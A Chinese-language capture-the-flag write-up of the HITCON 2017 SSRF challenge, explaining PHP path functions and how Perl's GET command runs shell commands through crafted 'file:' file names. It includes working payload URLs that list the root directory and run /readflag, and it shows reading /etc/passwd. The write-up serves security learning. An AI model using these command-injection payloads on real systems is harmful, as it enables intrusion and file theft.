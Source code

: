 知识点：

1. ssrf

2. perl



参考链接：

https://lihuaiqiu.github.io/2019/07/13/BUUCTF-Writeup-%E4%B8%80/

http://chenxiyuan.vip/2019/07/29/BUUCTF-web-writeup-%E4%BA%8C/



代码如下：

```javascript
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
  }
  $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
  @mkdir($sandbox);
  @chdir($sandbox);

   $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
   $info = pathinfo($_GET["filename"]);
   $dir  = str_replace(".", "", basename($info["dirname"]));
   @mkdir($dir);
   @chdir($dir);
   @file_put_contents(basename($info["basename"]), $data);
   highlight_file(__FILE__);
```

原题为HITCON 2017，这段代码大概意思为，首先通过XFF判断用户ip,建立沙盒，并且通过GET传入url和filename两个参数，通过filename建立新的目录以及文件名，通过url进行shell_exec的GET命令执行，最终把执行的结果放在新生成的目录下的文件名中。

首先来研究一下pathinfo函数以及basename函数的机制

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/0F91B285459747C39648CCA7AD995062Z2sbAs.png)

basename() 函数返回路径中的文件名部分,对于如下代码：

```javascript
<?php
$path = "/testweb/home.php";

//显示带有文件扩展名的文件名
echo basename($path);   //home.php

//显示不带有文件扩展名的文件名
echo basename($path,".php");  //home
?>
```



代码对于想要建立的目录都会进行两边basename，对于如下代码做下实验：

```javascript
<?php
    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    echo $dir;	
    echo $info["dirname"]; //$c
    echo "/n";
    echo basename($info['basename']);
```

如果filename为/a或者a这样的形式，basename($info['basename']);肯定是为a的，此时的目录为当前目录，再次用basename返回路径中的文件名肯定为空。如果为a/xxx/，$c和$dir返回的都是a，解释一下原因：第一次返回的basename为a其实相当于./a，那么第二次再用basename返回的文件名肯定也是a。那么比较透彻的理解了这个函数，下面的也更好做一写了。

escapeshellarg与escapeshellcmd函数

escapeshellarg

1.确保用户只传递一个参数给命令

2.用户不能指定更多的参数一个

3.用户不能执行不同的命令

其实我的理解就是把传入的字符串加单引号，如果我传入的是ls，那么经过函数操作后就变成了'ls'。同时会对传入的单引号进行一些安全处理，例如传入l's，那么经过处理就会变成

'l'\''s'。但是结合了escapeshellcmd就会造成一些危险的问题。函数简单介绍如下：

1.确保用户只执行一个命令

2.用户可以指定不限数量的参数

3.用户不能执行不同的命令

其作用也就是将一些危险符号进行转义，如

|   |   |
| - | - |
| 1 | &amp;，|，；，\\ ` |


下面会有详解。

GET命令漏洞

根本原因还是在于perl的GET函数底层实际上调用的是open处理，而在perl中，open是可以执行系统命令的。

```javascript
root@iZuf6420mwa64xegn82ysrZ:~# cat 1.pl
open(FD,"|id");
print <FD>;
root@iZuf6420mwa64xegn82ysrZ:~# perl 1.pl
uid=0(root) gid=0(root) groups=0(root)
```

从这段命令我们可看出来perl中open的作用。同时open是支持file协议的



```javascript
The library supports GET and HEAD methods for file requests.  The
"If-Modified-Since" header is supported.  All other headers are
ignored.  The I<host> component of the file URL must be empty or set
to "localhost".  Any other I<host> value will be treated as an error.
Directories are always converted to an HTML document.  For normal
files, the "Content-Type" and "Content-Encoding" in the response are
guessed based on the file suffix.
Example:
  $req = HTTP::Request->new(GET => 'file:/etc/passwd');
```

尝试一下file协议读取 GET 'file:/etc/passwd'或者GET '/etc/passwd'，都可以成功读取出文件内容。下面来尝试下执行系统命令。

```javascript
root@iZuf6420mwa64xegn82ysrZ:~# touch 'ls|'
root@iZuf6420mwa64xegn82ysrZ:~# GET 'file:ls|'
```

通过以上命令成功执行。这里需要注意的是必须要有存在的文件名才能成功执行命令，所以在上面建立了一个ls|文件。

那么这道题的思路就是建立命令执行的文件名，再通过file协议去执行就可以了

首先先看一下大概目录

通过Payload url=/&filename=xxx，然后访问沙盒里面的xxx文件





1. 首先获取目录下文件：

```javascript
#先建个文件
http://web7.buuoj.cn/?url=&filename=bash -c 'ls /'|
#执行命令后输出到chenxiyuan
http://web7.buuoj.cn/?url=file:bash -c 'ls /'|&filename=chenxiyuan
#访问
http://web7.buuoj.cn/sandbox/99ca4e36b9277744c847e190081f7fed/chenxiyuan

此处的MD5字符串为自己orang+自己ip加密得到
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/2618DCD438A244889804119E1DE2428Cclipboard.png)



2. 应该是执行/readflag来读取flag了,继续构造payload:

```javascript
#创建文件
http://web7.buuoj.cn/?url=&filename=bash -c /readflag|
#执行命令输出到flag
http://web7.buuoj.cn/?url=file:bash%20-c%20/readflag|&filename=flag
#访问
http://web7.buuoj.cn/sandbox/99ca4e36b9277744c847e190081f7fed/flag
```

